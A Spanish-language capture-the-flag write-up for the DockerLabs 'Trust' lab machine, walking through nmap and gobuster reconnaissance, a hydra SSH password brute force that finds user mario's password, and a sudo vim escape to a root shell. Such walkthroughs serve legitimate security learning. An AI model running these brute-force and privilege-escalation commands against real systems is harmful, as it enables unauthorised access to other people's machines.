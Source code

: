 Máquina: [Trust](https://dockerlabs.es/#/#Trust), from DockerLabs

## 1) Me anoto la IP que es fundamental para saber a quien atacar

## 2) nmap para identificar posibles puertos abiertos
```
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.17.0.2
```
Cada parámetro:

`-p-: quiero explorar los 65535 puertos pues no se cual puede estar abierto`\
`--open: sólo me importan los abiertos, ni cerrados ni filtrados`\
`-sS: quiero que haga stealth scanning, es un escaneo silencioso que no completa el 3 way handshake`\
`-vvv: que sea bien verboso, a medida que encuentra un resultado, lo escupa`\
`---min-rate XXXX: que sea veloz y no mande menos de tantos pkg por segundo`\
`-n: no quiero resolución DNS, es lento`\
`-Pn: quiero evitar que haga host discovery, puede ser lento`

##3) Una vez identificados posibles puertos abiertos quiero ser más exhaustivo con el análisis de cada uno
```
nmap -p22,80 -sC -vvv 172.17.0.2
```
`-p22,80: acá pongo los puertos que me identificó como abiertos previamente`\
`-sC: el tipo de script que quiero que corra para realizar un escaneo, es el default, scripts en Lua. Va a brindar información sobre el host y tecnologias que usa`\

## 4) otra utilidad para conocer detalles de la IP víctima es whatweb
`whatweb 172.17.0.2`
Da información sobre el sistema operativo, la versión de Apache o lo que estuviese corriendo, y más.

## 5) Ahora voy a hacer fuzzing para investigar qué endpoints hay
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt
```
Hago fuzzing por medio de gobuster y utilizando una lista de palabras 
`dir: para utilizar el modo de enumeración de archivos/directorios `\
`-w <PATH>: la lista de palabras a utilizar para el fuzz`\
`-t X: cantidad de threads concurrentes`\
`-x php,txt el tipo de extensiones a buscar (ej. index.php, secrets.txt) `\

Encontré una página:
/secret.php --> dice "Hola Mario"

## 6) Como la página dice 'Hola Mario' y previamente con nmap descubrí que el puerto 22 (SSH) estaba abierto, pienso hacerle fuerza bruta al usuario mario/root.
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP> -t 64
```
`-l <USER>: seteo el USER, el nombre de logeo`\
`-P <FILE>: cargo el archivo con contraseñas para hacer fuerza bruta`\
`-t N: cuantas tareas correr en paralelo por cada ataque`\

Encontré la contraseña del usuario mario:
user: mario | passw: chocolate

Pero necesito la del usuario root

## 7) Necesito escalar privilegios desde el user mario al user root
```
sudo -l
```
Verifico si el usuario actual tiene algún tipo de permiso especial.
Resulta que tiene permiso para correr cualquier cosa con `/usr/bin/vim`. Con lo cual si puedo correr a nivel de sudo vim, puedo aprovechar y ejecutar un comando junto con el launch de vim, por ejemplo
```
sudo /usr/bin/vim -c ':!/bin/bash'
```
Esto me va a abrir una terminal de bash en la cual seré un usuario root. Una vez que cierre esa bash me va a devolver a vim. Sin embargo acá ya termina la máquina pues logré acceder al usuario root.

## Resumen del ataque

Este método funcionó por lo siguiente:
* Los puertos de SSH y HTTP (22,80) están abiertos
* Encontramos un endpoint que advirtió del nombre de un usuario: Mario
* La password del usuario era muy simple y se le pudo hacer fuerza bruta, logrando conexión via SSH
* El usuario puede correr `/usr/bin/vim` como root
